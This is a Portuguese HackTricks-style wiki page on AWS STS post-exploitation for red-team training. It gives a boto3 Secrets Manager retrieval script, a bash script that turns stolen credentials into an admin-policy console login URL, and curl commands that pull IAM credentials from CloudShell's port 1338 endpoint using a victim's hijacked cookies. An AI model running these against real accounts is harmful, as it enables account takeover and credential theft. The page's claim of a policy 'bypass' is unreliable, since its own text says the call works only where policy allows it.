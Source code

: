 # AWS - STS Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## STS

Para mais informações:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Novo Método Dezembro 2024: Bypass da Requisição para Link da Web Console, Por Requisição HTTPS POST Para API do SecretsManager Para Obter Segredos Diretamente (Sem Link de Login ou Web Console)

Submetido ontem, como PR para o próximo exame (ARTE: ex16x41), no entanto, vejo que o PR não aparece, talvez tenha sido submetido errado, vamos tentar novamente:
Usando este método, você contorna completamente a exigência de abrir quaisquer URLs, formatar quaisquer links de login ou mesmo usar a CLI / Web Console.
Então, o que fizemos aqui?
Eu escrevi este script que interage diretamente com a API do AWS Secrets Manager, é absolutamente simples e direto.
Quando você executa o script, ele envia uma requisição HTTPS POST para o endpoint do AWS Secrets Manager
https://secretsmanager.<region>.amazonaws.com/
A requisição GetSecretValue é enviada como parte da requisição POST, autenticada com a assinatura SigV4 (gerenciada pelo boto3).
O Secrets Manager Processa a Requisição:
A AWS valida a requisição contra as políticas IAM anexadas ao seu usuário ou função (como sabemos, podemos visualizar o valor secreto apenas como web console)
Se permitido, o serviço Secrets Manager retorna o valor secreto solicitado na resposta.
**Demonstração POC:**
O comando CLI AWS para obter o valor secreto não está funcionando porque o acesso foi negado ->
No entanto, na imagem você pode ver a simplicidade do método para simplesmente extrair a flag diretamente conhecendo o ID do segredo (isso enumeramos em uma fase anterior quando logados com o perfil do usuário)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Nota: Eu acho que este método pode ser usado universalmente dependendo do cenário se a política permitir (mas contorna restrições de política que não permitem via CLI)
Então, isso pode ser usado sempre que uma política permitir (como uma opção de teste alternativa)
Nota lateral: curioso sobre outras técnicas que você pode aplicar usando o mesmo método de interação direta com a API do serviço e agora AWS CLI, para qualquer processo de elevação de privilégios ou pós-exploração como aqui.
**Código:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Defina um User-Agent personalizado
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Recupere o valor secreto diretamente via API do secretsmanager
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### De Credenciais IAM para Console

Se você conseguiu obter algumas credenciais IAM, pode estar interessado em **acessar a web console** usando as seguintes ferramentas.\
Note que o usuário/função deve ter a permissão **`sts:GetFederationToken`**.

#### Script personalizado

O seguinte script usará o perfil padrão e uma localização padrão da AWS (não gov e não cn) para lhe dar uma URL assinada que você pode usar para fazer login na web console:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Você pode **gerar um link para o console da web** com [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Certifique-se de que o usuário IAM tenha permissão `sts:GetFederationToken`, ou forneça uma função para assumir.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) é uma ferramenta para armazenar e acessar com segurança as credenciais da AWS em um ambiente de desenvolvimento.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Você também pode usar **aws-vault** para obter uma **sessão de console do navegador**
{% endhint %}

#### Do Console para Credenciais IAM

[**Descoberto originalmente neste post**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Se você conseguir comprometer algum acesso a um console web (talvez você tenha roubado cookies e não conseguiu acessar a pasta .aws), você pode obter algumas credenciais de token IAM para esse usuário através do **CloudShell**.

CloudShell expõe credenciais IAM através de um **endpoint não documentado na porta 1338**. Após carregar os cookies de sessão da vítima no seu navegador, você pode navegar até o CloudShell e emitir os seguintes comandos para obter credenciais IAM.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
